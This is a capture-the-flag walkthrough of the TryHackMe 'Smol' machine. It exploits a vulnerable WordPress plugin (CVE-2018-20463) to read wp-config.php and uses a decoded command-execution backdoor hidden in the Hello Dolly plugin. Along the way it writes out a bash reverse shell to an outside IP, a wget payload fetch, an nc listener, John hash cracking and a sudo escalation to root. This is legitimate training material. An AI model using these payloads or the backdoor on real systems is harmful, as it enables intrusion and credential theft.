


https://tryhackme.com/r/room/smol

**Test your enumeration skills on this boot-to-root machine.**

# Overview

At the heart of Smol is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, John The Ripper is faster than Hashcat?

We know:
 
- Wordpress
- plugins
- third-party things
- bruteforce password cracking

# Task 1 part 1 Enumeration and web login 

## Enumeration 

Open ports: 

- 22 - ssh only ssh key login
- 80 - smol.thm

Add ip to hosts file. 10.10.6.178 smol.thm and wwww.smol.thm

*update wpscan* 

wpscan --update

wpscan --random-user-agent --enumerate ap,at,cb,dbe,u,m --plugins-version-detection aggressive --detection-mode aggressive --url http://www.smol.thm/

Important findings: 

```
Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

### Vulnerability CVE-2018-20463

** https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt **

Version: 1.07
Link: https://wordpress.org/plugins/jsmol2wp/
A simple arbitrary file read and XSS vulnerability

Arbitrary file read & SSRF(CVE-2018-20463)
/wp-content/plugins/jsmol2wp/php/jsmol.php 137th line

The parameter $query of file_get_contents is directly controllable, so php://filter is used to read it. Of course, you can also use file:///etc/passwd to read the absolute path.

POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

Test:

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

```
/** Database username */
define( 'DB_USER', '-REDACTED-' );

/** Database password */
define( 'DB_PASSWORD', 'kb-REDACTED-Z%G' );
```
### Step 1 - Find a login user 


Check local users in passwd files:

xavi:x:1001:1001::/home/xavi:/bin/bash

diego:x:1002:1002::/home/diego:/bin/bash

gege:x:1003:1003::/home/gege:/bin/bash


Check user by wpscan

- admin
- think

Check password & user from mysql section in wp-config.php

log in successfull by - REDACTED - 

### Step 2 - log in to WP

We have an access to wp  

Checking WP version:

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).

### ** Rabbit-hole ** - GOTO Step 3!

Wordpress 6.4.3 is vulnerable "avatar XSS" CVE-2024-4439 Exploit: Unauthenticated Stored Cross-Site Scripting Vulnerability in WordPress Core

XSS POC ok



CVE-2024-4439 

References:

https://github.com/MielPopsssssss/CVE-2024-4439/blob/main/CVE-2024-4439.py

https://github.com/d0rb/CVE-2024-4439/tree/main

I could not exploit the weakness from several directions. Revshell is not working. 

Findings: 

OPEN directory http://www.smol.thm/wp-content/uploads/

SSRF:

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=http://10.14.38.96:9090

# Task 1 part 2 Web login to reverse shell 

### Step 3 - GO back to enumerate wp inside


We can find a "Webmaster Tasks!!" private page. 

1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.

Check Hello Dolly file: 

php://filter/resource=../../hello.php

What is Hello Dolly? 

*Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.*

We can find a strange line in the hello.php file on the target machine.

base64 decoded code: ``` if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }``` 

Check online decode https://www.unphp.net/decode/



We can use php system commands from $URL/wp-admin/index.php?cmd=SYSTEMCOMMANDS


Create reverse shell file:

```
new file: cat "/bin/bash -i >& /dev/tcp/10.14.38.96/9090 0>&1" > revshell
```

Open local webserver:

```
$ goshs -p 9090
INFO   [2025-01-26 00:46:12] Serving HTTP from /THM/Smol 
INFO   [2025-01-26 00:46:36] 10.10.6.178:54808 - [200] - "GET /revshell HTTP/1.1" 
```

Download reverse shell bash file to tmp: wget http://$url/revshell -O /tmp/revshell

http://www.smol.thm/wp-admin/index.php?cmd=wget%20http://10.14.38.96:9090/revshell%20-O%20/tmp/revshell


Open a listener: nc -lvnp 9090

Fire UP revshell

http://www.smol.thm/wp-admin/index.php?cmd=bash%20/tmp/revshell


We are in with user www-data. 

```
www-data@smol:/var/www/wordpress/wp-admin$ pwd; id; sudo -l 
pwd; id; sudo -l 
/var/www/wordpress/wp-admin
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

### Step 4 privesc [1]

Open mysql wordpress database and find hashes for users:

www-data@smol:/home$ mysql -u wpuser -p wordpress
mysql -u -REDACTED- -p wordpress
Enter password: -REDACTED-

```
mysql> select * from wp_users ;
select * from wp_users ;
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
|  1 | admin      | $P$BH.-----------REDACTED--------. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |
|  2 | wpuser     | $P$BfZ-----------REDACTED--------. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wp---------REDACTED-   |
|  3 | t-REDACTED | $P$BOb8----------REDACTED--------. | t             | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | -----------REDACTED--- |
|  4 | g-REDACTED | $P$B1U-----------REDACTED--------. | g             | g@smol.thm         | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | g----------REDACTED-   |
|  5 | d-REDACTED | $P$BW------------REDACTED--------. | d             | d@local            | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | di---------REDACTED-   |
|  6 | x-REDACTED | $P$BB------------REDACTED--------. | x             | x@smol.thm         | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xa---------REDACTED-   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
6 rows in set (0.00 sec)

```

Create hashes file for Johny 

```
batcat hashes 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hashes
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ admin:$P$BH.-----------REDACTED--------.
   2   │ t-REDACTED:$P$BH.-----------REDACTED--------.
   3   │ g-REDACTED:$$P$BH.-----------REDACTED--------.
   4   │ d-REDACTED:$P$BH.-----------REDACTED--------.
   5   │ x-REDACTED:$P$BH.-----------REDACTED--------.
───────┴──────────────────────────────────────────────
```
``
$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt 
``
sa-REDACTED-ia (diego)   

We can change from www-data to diego user: su  

``
diego@smol:~$ cat user.txt
cat user.txt
-REDACTED- USER flag Done
diego@smol:~$ id
id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
diego@smol:~$ pwd
pwd
/home/diego
diego@smol:~$ 
``

### Step 5 privesc [2]

We are in the group internal so we can check 'think's ssh keys and we have access to all of these files. 

Copy all data to local.  

We can use (chmod 600!) id.rsa and we can ssh to the server with user think. 

Next step to change privilege to gege. He is an owner of wordpress old back file. Maybe we can find passwords inside. 

```
think@smol:~$ id
uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)

/home/gege:
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 6 root root         4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip

think@smol:~$ cat /etc/group |grep gege
gege:x:1003:
dev:x:1004:think,gege
internal:x:1005:diego,gege,think,xavi

```

### Step 6 privesc [3]

jump to gege and move file to local. 

```


think@smol:~$ su - gege
gege@smol:~$ 

gege@smol:~$ cp wordpress.old.zip /tmp/ 
gege@smol:~$ cd /tmp
gege@smol:/tmp$ chmod 777 wordpress.old.zip 
gege@smol:/tmp$ ls -la wordpress.old.zip 
-rwxrwxrwx 1 gege gege 32266546 Jan 26 00:36 wordpress.old.zip

```


```
user@local:~/Desktop/THM/Smol$ wget http://smol.thm:8080/wordpress.old.zip

user@local:~/Desktop/THM/Smol$ john --wordlist=/usr/share/wordlists/rockyou.txt wordpress.old.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Crash recovery file is locked: /home/user/.john/john.rec
user@local:~/Desktop/THM/Smol$ john --wordlist=/usr/share/wordlists/rockyou.txt wordpress.old.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
----------REDACTED--------- (wordpress.old.zip)     
1g 0:00:00:00 DONE (2025-01-26 01:40) 1.219g/s 9300Kp/s 9300Kc/s 9300KC/s hesse..hepiboth
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### Step 7 privesc [4]

Unzip the file and view wp-config.php. xavi password: -----REDACTED-----

```
gege@smol:/tmp$ su - xavi
Password: 
xavi@smol:~$ sudo -l 
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
xavi@smol:~$ sudo bash
```

### Step 8 privesc [5]

xavi is a full sudo user so we can move to root. 

```
root@smol:/home/xavi$ cd /root
root@smol:~$ pwd
/root
root@smol:~$ id
uid=0(root) gid=0(root) groups=0(root)
root@smol:~$ ls
total 64K
drwx------  7 root root 4.0K May  2  2024 .
drwxr-xr-x 18 root root 4.0K Mar 29  2024 ..
lrwxrwxrwx  1 root root    9 Jun  2  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.2K Jun 21  2023 .bashrc
drwx------  2 root root 4.0K Jun  2  2023 .cache
-rw-------  1 root root   35 Mar 29  2024 .lesshst
drwxr-xr-x  3 root root 4.0K Jun 21  2023 .local
lrwxrwxrwx  1 root root    9 Aug 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4.0K Aug 16  2023 .phpbrew
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
-rw-r--r--  1 root root   75 Aug 17  2023 .selected_editor
drwx------  3 root root 4.0K Jun 21  2023 snap
drwx------  2 root root 4.0K Jun  2  2023 .ssh
-rw-rw-rw-  1 root root  14K May  2  2024 .viminfo
root@smol:~$ cat root.txt
---------- REDACTED  ---------- root flag done! 
root@smol:~$ 
```


ps: Who is Jose Mario Llado Marti?


╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.8.31